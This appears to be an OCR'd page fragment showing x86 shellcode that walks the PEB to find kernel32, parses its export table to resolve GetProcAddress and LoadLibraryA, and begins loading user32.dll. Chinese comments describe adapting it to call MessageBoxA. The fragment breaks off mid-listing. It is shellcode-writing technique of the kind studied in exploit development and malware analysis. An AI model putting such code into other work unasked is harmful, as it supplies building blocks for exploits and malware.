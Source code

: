 ```
    return pRet;
`}`
```

```
;这里原作者是寻找SwapMouseButton函数
;将最后一段汇编参数修改为MessageBoxA的16位小端序
;即可找到MessageBoxA函数的地址
xor ecx, ecx
mov eax, fs:[ecx + 0x30] ; EAX = PEB
mov eax, [eax + 0xc]     ; EAX = PEB-&gt;Ldr
mov esi, [eax + 0x14]    ; ESI = PEB-&gt;Ldr.InMemOrder
lodsd                    ; EAX = Second module
xchg eax, esi            ; EAX = ESI, ESI = EAX
lodsd                    ; EAX = Third(kernel32)
mov ebx, [eax + 0x10]    ; EBX = Base address

mov edx, [ebx + 0x3c]    ; EDX = DOS-&gt;e_lfanew
add edx, ebx             ; EDX = PE Header
mov edx, [edx + 0x78]    ; EDX = Offset export table
add edx, ebx             ; EDX = Export table
mov esi, [edx + 0x20]    ; ESI = Offset namestable
add esi, ebx             ; ESI = Names table
xor ecx, ecx             ; EXC = 0

Get_Function:

inc ecx                              ; Increment the ordinal
lodsd                                ; Get name offset
add eax, ebx                         ; Get function name
cmp dword ptr[eax], 0x50746547       ; GetP
jnz Get_Function
cmp dword ptr[eax + 0x4], 0x41636f72 ; rocA
jnz Get_Function
cmp dword ptr[eax + 0x8], 0x65726464 ; ddre
jnz Get_Function
mov esi, [edx + 0x24]                ; ESI = Offset ordinals
add esi, ebx                         ; ESI = Ordinals table
mov cx, [esi + ecx * 2]              ; Number of function
dec ecx
mov esi, [edx + 0x1c]                ; Offset address table
add esi, ebx                         ; ESI = Address table
mov edx, [esi + ecx * 4]             ; EDX = Pointer(offset)
add edx, ebx                         ; EDX = GetProcAddress

xor ecx, ecx    ; ECX = 0
push ebx        ; Kernel32 base address
push edx        ; GetProcAddress
push ecx        ; 0
push 0x41797261 ; aryA
push 0x7262694c ; Libr
push 0x64616f4c ; Load
push esp        ; "LoadLibrary"
push ebx        ; Kernel32 base address
call edx        ; GetProcAddress(LL)

add esp, 0xc    ; pop "LoadLibrary"
pop ecx         ; ECX = 0
push eax        ; EAX = LoadLibrary
push ecx
mov cx, 0x6c6c  ; ll
push ecx
push 0x642e3233 ; 32.d
push 0x72657375 ; user
```